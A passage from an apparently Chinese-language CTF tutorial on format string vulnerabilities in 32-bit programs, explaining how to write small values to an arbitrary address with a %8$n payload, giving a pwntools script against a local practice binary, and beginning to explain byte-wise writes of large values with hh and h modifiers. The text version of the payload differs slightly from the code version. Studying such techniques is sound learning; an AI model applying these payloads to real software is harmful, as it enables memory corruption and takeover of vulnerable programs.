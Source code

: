 成功修改。

## 覆盖任意地址内存为小数字

对于32位程序来说，地址肯定是4字节的。如果将地址放在开头，那么至少会写成4。为了写更小的数字，可以将地址放在后面。

由于此时地址是按4字节分割的，我们不用重新定位位置。按照上次定位的位置推即可。

```
AA$8$nxx[addr]
```

因为要将a改写为2，`$8$n`前面只能有2个字符。然后为了凑整，后面再次填写两个字符。最后再加上地址即可。此时的参数位置：

![image-20231109165043444](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109165043444.png)

因此写入第八位即可改写addr处的地址位2。

```python
from pwn import *
context(arch='i386',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']

elf = ELF('./overwrite')
libc = elf.libc
r = elf.process()

leak = 0x804C024

payload = flat([
    'AA',
    '%8$nxx',
    leak
])

r.sendline(payload)

r.interactive()
```

![image-20231109165701091](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109165701091.png)

## 覆盖任意地址内存为大地址

上面介绍了覆盖小数字，这里我们介绍如何覆盖大数字。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678 在内存中由低地址到高地址依次为 \ x78\x56\x34\x12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志：

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```
